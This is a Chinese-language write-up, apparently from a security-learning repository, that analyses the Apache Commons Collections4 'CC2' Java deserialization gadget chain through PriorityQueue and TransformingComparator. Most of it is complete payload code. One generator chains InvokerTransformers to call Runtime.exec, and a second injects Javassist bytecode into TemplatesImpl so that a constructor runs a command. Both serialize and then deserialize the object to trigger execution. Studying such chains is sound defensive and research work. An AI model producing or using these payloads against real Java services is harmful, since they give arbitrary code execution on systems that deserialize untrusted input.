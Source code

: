 ## 环境搭建

限制：JDK没有限制，需要commons-collections4

```java
 <dependency>
     <groupId>javassist</groupId>
     <artifactId>javassist</artifactId>
     <version>3.12.1.GA</version>
</dependency> 
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.1</version>
</dependency>
```

## PriorityQueue 

`PriorityQueue`和`Queue`的区别在于，它的出队顺序与元素的优先级有关，对`PriorityQueue`调用`remove()`或`poll()`方法，返回的总是优先级最高的元素。

主要方法

- `PriorityQueue()` 使用默认的初始容量（11）创建一个 PriorityQueue，并根据其自然顺序对元素进行排序。
- `PriorityQueue(int initialCapacity)`使用指定的初始容量创建一个 PriorityQueue，并根据其自然顺序对元素进行排序。
- `PriorityQueue(int initialCapacity, Comparator<? super E> comparator)` 指定的初始容量创建一个 PriorityQueue，并根据指定比较器对元素进行排序.
- `add(E e)` 将指定的元素插入此优先级队列
- `clear()` 从此优先级队列中移除所有元素。
- `comparator()` 返回用来对此队列中的元素进行排序的比较器；如果此队列根据其元素的自然顺序进行排序，则返回 null
- `contains(Object o)` 如果此队列包含指定的元素，则返回 true。
- `iterator()` 返回在此队列中的元素上进行迭代的迭代器。
- `offer(E e)` 将指定的元素插入此优先级队列
- `peek()` 获取但不移除此队列的头；如果此队列为空，则返回 null。
- `poll()` 获取并移除此队列的头，如果此队列为空，则返回 null。
- `remove(Object o)` 从此队列中移除指定元素的单个实例（如果存在）。
- `size()` 返回此 collection 中的元素数。
- `toArray()` 返回一个包含此队列所有元素的数组。

例子可以看看[廖雪峰的网站](https://www.liaoxuefeng.com/wiki/1252599548343744/1265120632401152)

##  分析

还是直接从`readObject`入手，这次是`PriorityQueue`这个类

![image-20220917193835178](img/image-20220917193835178.png)

继续看`heapify()`的东西

```java
private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

需要`size`大于一，是queue的个数，我们直接在反射后加上两个值就行

![image-20220917193938168](img/image-20220917193938168.png)

看`siftDown`函数

```java
private void siftDown(int k, E x) {
        if (comparator != null)
            siftDownUsingComparator(k, x);
        else
            siftDownComparable(k, x);
    }
```

继续看

`siftDownComparable`函数

![image-20220917194105282](img/image-20220917194105282.png)

`siftDownUsingComparator`函数

![image-20220917194136590](img/image-20220917194136590.png)



这个调用`compare`函数，`comparator`又是一个接口，直接找

`TransformingComparator`类

这个函数里面就比较熟悉了，直接用cc1的一些东西

![image-20220917194245635](img/image-20220917194245635.png)



注意：

queue调用`add`函数增加个数时，

```java
public boolean add(E e) {
    return offer(e);
}
```

![image-20220917194421797](img/image-20220917194421797.png)

![image-20220917194436182](img/image-20220917194436182.png)



直接传入恶意 comparator 会在生成 `poc` 的时候(就是add函数)直接执行，那么就先不传 comparator 的，也就是`comparator==null`，那么`siftUp()`就会进入第二个函数，`siftUpComparable()`，这样就不会触发，然后再利用反射传入`恶意的comparator`

##  payload

```java
package payload.cc2;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class payload2 {
    public static void main(String[] args) throws Exception {
        ChainedTransformer chain = new ChainedTransformer(new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                new Class[]{String.class, Class[].class},
                new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke",
                new Class[]{Object.class, Object[].class},
                new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec",
                new Class[]{String.class},
                new String[]{"calc"}));
        TransformingComparator comparator = new TransformingComparator(chain);
        PriorityQueue queue=new PriorityQueue();

        queue.add(1);
        queue.add(2);
        Field field=Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,comparator);

        ObjectOutputStream objectOutputStream=new ObjectOutputStream(new FileOutputStream(new File("./src/main/java/payload/cc2/temp.txt")));
        objectOutputStream.writeObject(queue);
        objectOutputStream.close();
        ObjectInputStream objectInputStream=new ObjectInputStream(new FileInputStream(new File("./src/main/java/payload/cc2/temp.txt")));
        objectInputStream.readObject();
        objectInputStream.close();
    }
}

```

##  思路2

上面的 `PriorityQueue` 只能执行命令，这里使用`Javassist` 触发`TemplatesImpl#newTransformer()`就可以执行恶意代码，使用`InvokerTransformer`调用`TemplatesImpl#newTransformer()`
                                                                                              

```java
package cc.cc2;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

public class payload1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(test.class.getName());
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazz.toBytecode()});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Transformer transformer = new InvokerTransformer("toString", null, null);

        Comparator comparator = new TransformingComparator( transformer);

        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(obj);
        queue.add(obj);

        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

同目录下的test类：

```java
package cc.cc2;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class  test extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public test() throws Exception {
        super();
        Runtime.getRuntime().exec("calc");
        System.out.println(123);
    }
}

```



##  参考链接

https://yq1ng.github.io/2021/11/15/cc2/